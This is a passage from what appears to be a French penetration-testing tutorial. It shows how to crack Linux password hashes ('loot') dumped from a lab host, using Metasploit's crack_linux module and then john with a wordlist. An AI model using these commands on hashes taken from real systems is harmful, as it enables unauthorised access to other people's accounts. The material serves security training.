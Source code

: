 ![06-msfconsole-loot](../images/2020/06/06-msfconsole-loot.png)

## Décryptage des _loot_

`use auxiliary/analyze/crack_linux`

`show options`

`set CUSTOM_WORDLIST /usr/share/john/password.lst`

`set USE_DEFAULT_WORDLIST false`

`set USE_ROOT_WORDS false`

`run`

![06-msfconsole-crack_linux](../images/2020/06/06-msfconsole-crack-linux.png)

??? info "Décryptage des _loot_ avec `john` si ça ne marche pas avec crack_linux"
    Après l'extraction des _loot_, il est possible de les déchiffrer avec l'outil `john` :  

    `john --wordlist=/usr/share/john/password.lst --rules /root/.msf4/loot/20200605161359_default_192.168.40.7_linux.hashdump_159137603`

    ![06-john-hashdump](../images/2020/06/06-john-hashdump.png)

